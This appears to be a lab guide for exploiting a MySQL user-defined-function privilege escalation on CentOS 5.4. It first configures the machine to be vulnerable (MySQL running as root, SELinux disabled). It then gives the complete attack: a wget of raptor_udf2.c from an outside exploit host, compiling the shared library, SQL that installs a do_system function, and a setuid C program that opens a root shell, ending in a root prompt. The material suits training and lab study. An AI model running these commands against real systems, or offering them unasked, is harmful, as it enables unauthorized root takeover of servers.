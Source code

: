 ========================================================================
CentOS 5.4 MySQL User Defined Function Privilege Escalation Exploitation
========================================================================

------------
Requirements
------------

The following needs to be reproduced for successful exploitation and privilege
escalation to root (unless target machine is already vulnerable/misconfigured):

 -Stop MySQL (if running): 
   ~$ sudo /etc/init.d/mysqld stop

 -Change MySQL service data directory permission:
   ~$ sudo chown -R root:root /var/lib/mysql

 -Edit the file /etc/my.cnf (using sudo), and change the line:
    user=mysql
 -to:
    user=root
 -and save the file.

 -Start the MySQL service:
   ~$ sudo /etc/init.d/mysqld start

 -Turn off selinux (if applicable):
   ~$ sudo /usr/sbin/setenforce 0

 -Install wget and gcc:
   ~$sudo yum install wget gcc

No reboot is required.
The machine should now be vulnerable to MySQL UDF Privilege Escalation.


-------------
Exploitation
-------------
~$ wget http://0xdeadbeef.info/exploits/raptor_udf2.c
~$ gcc -g -c raptor_udf2.c
~$ gcc -g -shared -W1,-soname,raptor_udf2.so -o raptor_df2.so raptor_udf2.o -lc
~$ mysql -u root

mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file(‘/home/raptor/raptor_udf2.so’));
mysql> select * from foo into dumpfile ‘/usr/lib/raptor_udf2.so’;
mysql> create function do_system returns integer soname ‘raptor_udf2.so’;
mysql> select * from mysql.func;
mysql> exit

-Create a file named "setuid.c" with the following C code in your home directory:

...snip...

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
setuid(0); setgid(0); system("/bin/bash");
}

...snip...

~$ mysql -u root

mysql> use mysql;
mysql> select do_system('gcc -o /tmp/setuid /home/centos/setuid.c');
mysql> select do_system('chmod u+s /tmp/setuid');
mysql> exit

~$ /tmp/setuid
~# whoami
root

======================================================================================

Credits to raptor <raptor@0xdeadbeef.info> for the raptor_udf2.c UDF source code.

